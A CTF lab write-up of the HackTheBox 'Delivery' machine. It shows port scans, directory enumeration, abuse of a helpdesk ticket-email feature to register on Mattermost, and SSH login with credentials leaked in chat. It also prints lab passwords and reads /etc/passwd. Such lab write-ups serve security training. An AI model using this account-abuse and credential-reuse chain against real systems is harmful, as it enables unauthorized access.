# Resolution summary

>[!summary]
>- A links in the sites points to a sub domain of the machine which is used to manage tickets
>- It is possible to open and add comments to tickets with a Guest account
>- Because comments can be added to the tickets sending specific emails, it is possible to abuse this functionality to receive the validation link in order to register to Mattermost
>- Once logged within Mattermost a password is disclosed within a chat (as well as some comments regarding a common password path)
>- Using the previously found password it is possible to login within the box as a low privileged user, hunts for mysql credentials, extract the hashes of the various users and crack them following the common path
>- Root user reuse its mysql password. It is possible to escalate using its password

## Improved skills

- Enumeration & smart thinking
- Password hunting
- hashcat / john custom rules

## Used tools

- nmap
- gobuster
- hashcat
- john

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ sudo nmap -p- 10.10.10.222 -sS -Pn -oN scans/all-ports.txt -v                                              
[sudo] password for kali: 
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 55.58 seconds
           Raw packets sent: 65621 (2.887MB) | Rcvd: 65796 (2.684MB)
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ sudo nmap -p22,80,8065 -sV -sC 10.10.10.222 -sT -Pn -oN scans/open-tcp-ports.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 16:38 EDT
Nmap scan report for 10.10.10.222
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Sun, 25 Apr 2021 20:37:14 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 4rg44j93ajy9tnsgzhfznr9ngh
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Sun, 25 Apr 2021 20:44:57 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Date: Sun, 25 Apr 2021 20:44:57 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.91%I=7%D=4/25%Time=6085D335%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\
SF:r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancesto
SF:rs\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Sun,\x2025\
SF:x20Apr\x202021\x2020:37:14\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:X-Request-Id:\x204rg44j93ajy9tnsgzhfznr9ngh\r\nX-Version-Id:\x205\.30\.
SF:0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Sun,\x
SF:2025\x20Apr\x202021\x2020:44:57\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user
SF:-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollo
SF:w\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matter
SF:most</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\"
SF:><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x20
SF:name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(H
SF:TTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x2
SF:0Sun,\x2025\x20Apr\x202021\x2020:44:57\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```

# Enumeration

## Port 80 - HTTP (nginx/1.14.2)

### delivery.htb

Enumerated port 80 using web browser:



Contact us message revealed a sub-domain and a domain email:



Added the subdomain to */etc/hosts* file:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ sudo nano /etc/hosts
...
10.10.10.222    delivery.htb helpdesk.delivery.htb
...
```

### helpdesk.delivery.htb



osTicket vulnerabilities:



Created an account:



>[!important]
>[maoutis@maoutis.com](mailto:maoutis@maoutis.com) : maoutis --> needs confirmation

Enumerated files and directories:

```bash
/account.php          (Status: 200) [Size: 37319]
/ajax.php             (Status: 400) [Size: 17]
/api                  (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/api/]
/apps                 (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/apps/]
/assets               (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/assets/]
/avatar.php           (Status: 400) [Size: 40]
/captcha.php          (Status: 200) [Size: 3377]
/css                  (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/css/]
/images               (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/images/]
/index.php            (Status: 200) [Size: 4933]
/js                   (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/js/]
/kb                   (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/kb/]
/login.php            (Status: 422) [Size: 5181]
/logo.php             (Status: 302) [Size: 0] [--> /assets/default/images/logo.png]
/logout.php           (Status: 302) [Size: 13] [--> index.php]
/manage.php           (Status: 200) [Size: 63]
/offline.php          (Status: 302) [Size: 0] [--> index.php]
/open.php             (Status: 200) [Size: 8133]
/pages                (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/pages/]
/profile.php          (Status: 422) [Size: 5181]
/scp                  (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/scp/]
/.                    (Status: 301) [Size: 185] [--> http://helpdesk.delivery.htb/./]
/tickets.php          (Status: 422) [Size: 5181]
/view.php             (Status: 200) [Size: 5263]
/web.config           (Status: 200) [Size: 2197]
```

It is possible to create tickets as guest user:



>[!important]
>[maoutis@hackthebox.htb](mailto:maoutis@hackthebox.htb) - 1203785 ([1203785@delivery.htb](mailto:1203785@delivery.htb))

**/scp/login.php**



## Port 8065 - HTTP (Mattermost)

Enumerated port 8065 using a browser:



Email confirmation required for registration. It is possible to use the "send email to add a new comment to the ticket" function to intercept the verification email:



### Authenticated access to Mattermost

Logged in with the previously created account:

>[!important]
>[1203785@delivery.htb](mailto:1203785@delivery.htb) - Qwertyuiop123!





Enumerated all the members of the application:



Credentials leaked due to an insecure communication channel:



>[!important]
>maildeliverer	Youve_G0t_Mail!

> [!hint]
> Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "**PleaseSubscribe!**"

# Exploitation

## Login reusing credentials found on Mattermost

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Delivery]
└─$ ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
```

# Privilege Escalation

## Local enumeration

Enumerated the users on the box:

```bash
maildeliverer@Delivery:~$ whoami
maildeliverer
maildeliverer@Delivery:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:116::/var/lib/saned:/usr/sbin/nologin
colord:x:108:117:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:110:118:MySQL Server,,,:/nonexistent:/bin/false
mattermost:x:998:998::/home/mattermost:/bin/sh

maildeliverer@Delivery:~$ ls /home
maildeliverer
```

Services and processes:

```bash
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -                                    
tcp6       0      0 :::80                   :::*                    LISTEN      -                                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                                    
